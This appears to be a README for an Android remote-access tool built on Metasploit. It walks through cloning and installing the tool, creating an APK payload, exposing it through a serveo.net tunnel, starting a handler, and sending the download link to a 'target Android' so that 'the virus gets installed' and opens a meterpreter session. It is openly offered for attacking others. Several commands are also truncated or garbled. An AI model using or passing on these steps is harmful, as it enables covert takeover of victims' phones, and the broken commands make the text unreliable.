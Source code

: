 **Requirements :-**

1.Metasploit-Framework

2.git

**Installation :-**

1.Install git by typing "pkg install git"

2.Download Lemon by typing "git clone https://github.com/Viper-Gamer/viper

3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

**How to use :

1.Run php by typing "sh 

2.Run ssh by typing "sh ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP connections by typing "sh payload", choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.

4.Type "sh Handler" and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target devicterpreter 
